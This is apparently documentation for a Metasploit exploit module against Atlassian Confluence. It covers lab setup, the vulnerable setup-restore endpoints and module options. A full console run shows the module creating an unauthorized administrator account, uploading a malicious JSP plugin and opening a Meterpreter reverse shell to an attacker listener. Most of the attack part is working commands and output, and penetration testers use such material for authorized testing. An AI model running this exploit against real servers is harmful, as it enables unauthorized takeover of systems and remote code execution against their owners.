 ## Vulnerable Application

This Improper Authorization vulnerability allows an unauthenticated attacker to reset Confluence and create a
Confluence instance administrator account. Using this account, an attacker can then perform all
administrative actions that are available to Confluence instance administrator. This module uses the
administrator account to install a malicious .jsp servlet plugin which the user can trigger to gain code
execution on the target in the context of the of the user running the confluence server.

### Setup
Download and install a [vulnerable version of Atlassian Confluence](https://www.atlassian.com/software/confluence/download.).
By default the server will listen for HTTP connections on port 8090. This exploit module was tested against Confluence
8.5.1 running on Windows Server 2022.

After running the installer the setup wizard will ask for a trial license. An Atlassian account is free and required
to obtain the trial licence. A database and a will also be required to run Confluence. Download and install
[PostgreSQL](https://www.enterprisedb.com/downloads/postgres-postgresql-downloads). The setup Wizard will ask for DB
credentials, the default PostgreSQL database can be used.

## Verification Steps

1. Start msfconsole
1. Do: `use atlassian_confluence_unauth_backup`
1. Set the `RHOST`
1. Run the module
1. Receive a Meterpreter session in the context of the user running the Confluence application.

## Options

### CONFLUENCE_TARGET_ENDPOINT

This is the endpoint used to trigger the vulnerability, and must be reachable by an un authenticated HTTP(S) POST
request. The three vulnerable endpoints outlined by Atlassian in the advisory for this vulnerability are as follows:
 - /json/setup-restore.action
 - /json/setup-restore-local.action
 - /json/setup-restore-progress.action'

### CONFLUENCE_PLUGIN_TIMEOUT

The exploit will install a malicious plugin into the Confluence server. Plugin installation is performed asynchronously
and we must poll the server to find out when installation has completed. This option governs the maximum amount
of time to wait for installation to complete. The timeout value is in seconds and by default this option is set to `30`.

## Scenarios
### Windows Server 2022 running Atlassian Confluence 8.5.1
```
msf exploit(multi/http/atlassian_confluence_unauth_backup) > set rhost 172.16.199.134
rhost => 172.16.199.134
msf exploit(multi/http/atlassian_confluence_unauth_backup) > set verbose true
verbose => true
msf exploit(multi/http/atlassian_confluence_unauth_backup) > options

Module options (exploit/multi/http/atlassian_confluence_unauth_backup):

   Name                        Current Setting             Required  Description
   ----                        ---------------             --------  -----------
   CONFLUENCE_PLUGIN_TIMEOUT   30                          yes       The timeout (in seconds) to wait when installing a plugin
   CONFLUENCE_TARGET_ENDPOINT  /json/setup-restore.action  yes       The endpoint used to trigger the vulnerability. (Accepted: /json/setup-restore.action, /json/setup-restore-local.action, /json/setup-restore-progress.action)
   NEW_PASSWORD                LELTtnOG                    yes       Password to be used when creating a new user with admin privileges
   NEW_USERNAME                candace.leffler             yes       Username to be used when creating a new user with admin privileges
   Proxies                                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      172.16.199.134              yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                       8090                        yes       The target port (TCP)
   SSL                         false                       no        Negotiate SSL/TLS for outgoing connections
   VHOST                                                   no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java



View the full module info with the info, or info -d command.

msf exploit(multi/http/atlassian_confluence_unauth_backup) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable version of Confluence: 8.5.1
[*] Setting credentials: candace.leffler:LELTtnOG
[+] Exploit Success! Login Using 'candace.leffler :: LELTtnOG'
[*] Generating payload plugin
[*] Uploading payload plugin
[*] Triggering payload plugin
[*] Deleting plugin...
[*] Sending stage (57692 bytes) to 172.16.199.134
[*] Meterpreter session 6 opened (172.16.199.1:4444 -> 172.16.199.134:50095) at 2023-12-11 18:52:33 -0500

meterpreter > getuid
Server username: WIN-2EEL7BRDUD8$
meterpreter > sysinfo
Computer        : WIN-2EEL7BRDUD8
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/windows
meterpreter >
```
